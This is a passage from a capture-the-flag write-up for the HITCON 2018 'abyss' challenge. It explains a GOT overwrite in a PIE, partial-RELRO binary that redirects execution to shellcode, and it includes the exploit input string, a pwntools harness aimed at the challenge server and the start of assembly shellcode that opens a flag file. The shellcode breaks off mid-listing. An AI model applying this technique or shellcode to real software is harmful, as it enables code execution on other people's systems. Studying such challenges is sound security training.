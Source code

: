 ![Evaluation stack .bss layout](/2018/2018_10_20_HITCON/abyss/images/eval_stack_ptr.png)

Thankfully `user.elf` was partial RELRO, meaning we could overwrite a GOT entry with the above technique. The plan was to write a GOT entry with the address of our shellcode (which we put at the end of the input buffer in `.bss`). However, the binary is PIE and there were no leaks, so we had to do some gymnastics with the GOT entries to get a pointer to our shellcode. I did this by adding an offset to a known pointer (unresolved `write` entry which pointed into the PLT) and then swapping DWORDs along until I swapped the low DWORD of the unreslved `printf` entry with our adjusted low DWORD, to form a pointer which pointed to our shellcode. We then triggered `printf` with the  `writed` command (`.`), which jumped to our shellcode.

The input string I used which overwrote the GOT address to point to the input buffer was `4294967268\2107670+a\31337\31337\31337\.`

The harness I used for my exploit was:
```python
import sys
from pwn import *

LOCAL = False

if LOCAL:
    t = process('./hypervisor.elf kernel.bin ld.so.2 ./user.elf'.split())
else:
    t = remote('35.200.23.198', 31733)

with open(sys.argv[1]) as f:
    exploit = f.read()

t.sendline(exploit)
t.recvuntil('hitcon')
flag = 'hitcon' + t.recvuntil('}')

log.info(flag)
```
   And my shellcode (`nasm part1.asm -o part1`):
```nasm
; part1.asm

BITS 64

db '4294967268\2107670+a\31337\31337\31337\.'
times 20 nop

; Open "flag"
push   0x67616c66
push   0x2
pop    rax
mov    rdi,rsp
xor    rsi, rsi
```